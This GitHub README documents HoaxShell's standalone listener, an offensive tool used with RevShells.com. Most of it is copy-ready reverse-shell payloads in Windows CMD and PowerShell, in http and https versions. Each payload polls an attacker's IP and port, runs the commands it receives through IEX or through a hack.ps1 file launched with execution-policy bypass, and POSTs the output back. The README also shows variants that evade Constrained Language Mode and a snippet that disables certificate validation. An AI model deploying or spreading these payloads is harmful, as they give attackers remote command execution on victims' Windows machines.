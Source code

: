 # HoaxShell Listener
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.6-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">
<img height="20px" src="https://img.shields.io/badge/Windows%20cmd-%234D4D4D.svg?style=for-the-badge&logo=windows-terminal&logoColor=white">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">  

## Purpose
A standalone version of HoaxShell's listener, mainly created for integration with [RevShells.com](https://revshells.com).  

## Installation
```
pip3 install -r requirements.txt
```
**Important**: The `gnureadline` module is not meant for Windows and it will naturally cause an error if you try to install with pip. Remove `gnureadline` from the requirements.txt to install on Windows.

## Usage
The standalone listener does not include payload generation functions. It is desighed to work in a simple manner with the only required argument being the payload type to expect (payload types and templates listed below).  

You can run the listener by executing `hoaxshell-listener.py` or directly invoking it from the project's repository:
```
# Execute from file
python3 hoaxshell-listener.py -t <payload-type>

# Invoke from repository
python3 -c "$(curl -s https://raw.githubusercontent.com/t3l3machus/hoaxshell/main/revshells/hoaxshell-listener.py)" -t <payload type> -p <port> [-c /your/cert.pem -k /your/key.pem>] 
```

The listener is designed to accept any incoming connection bearing a session id in the form of `eb6a44aa-8acc1e56-629ea455`.  
You can keep the session id's included in the templates or alter them to different values.

## Payload Templates
1. Start the listener with the `--type [-t]` set to one of the available payload types below:  
`cmd-curl | ps-iex | ps-iex-cm | ps-outfile | ps-outfile-cm`
2. Grab the equivalent template and adjust the IP and PORT values. if you change the default port 8080/443 you need to parse it to the listener with `-p`.
3. Execute payload on the target machine.

### http payloads

#### cmd-curl
A brand new payload written in pure Windows CMD that utilizes cURL.
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:8080&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=http://&&curl !protocol!!ip!/eb6a44aa -H !sid! > NUL && for /L %i in (0) do (curl -s !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
PowerShell payload that utilizes IEX.
```
$s='192.168.0.101:9001';$i='14f30f27-650c00d7-fef40df7';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/14f30f27 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/650c00d7 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/fef40df7 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
Same as `ps-iex` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='bf5e666f-5498a73c-34007c82';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/bf5e666f -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/5498a73c -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/34007c82 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
PowerShell payload that writes and executes commands from disc.
```
$s='192.168.0.71:8080';$i='add29918-6263f3e6-2f810c1e';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
Same as `ps-outfile` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='e030d4f6-9393dc2a-dd9e00a7';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

### https Payloads
You can parse certificate and private-key .pem files to the listener with `-c` and `-k` to start it via https.  
To generate self-signed certificates you can use: `openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`  
Find below the payload templates adjusted to use https.

**For PowerShell payloads**: If you don't supply a trusted certificate to the listener, append this block at the beginning of the payload to disable certificate validation:
```
add-type @"
using System.Net;using System.Security.Cryptography.X509Certificates;                                  
public class TrustAllCertsPolicy : ICertificatePolicy {public bool CheckValidationResult(              
ServicePoint srvPoint, X509Certificate certificate,WebRequest request, int certificateProblem) {return true;}}
"@                                                                                                     
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```
#### cmd-curl
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:443&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=https://&&curl -fs -k !protocol!!ip!/eb6a44aa -H !sid! > NUL & for /L %i in (0) do (curl -fs -k !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl -fs -k !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
```
$s='192.168.0.71:443';$i='1cdbb583-f96894ff-f99b8edc';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/1cdbb583 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/f96894ff -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/f99b8edc -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
```
$s='192.168.0.71:443';$i='11e6bc4b-fefb1eab-68a9612e';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/11e6bc4b -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/fefb1eab -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/68a9612e -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
```                                                                                                                    
$s='192.168.0.71:443';$i='add29918-6263f3e6-2f810c1e';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
```
$s='192.168.0.71:443';$i='e030d4f6-9393dc2a-dd9e00a7';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```
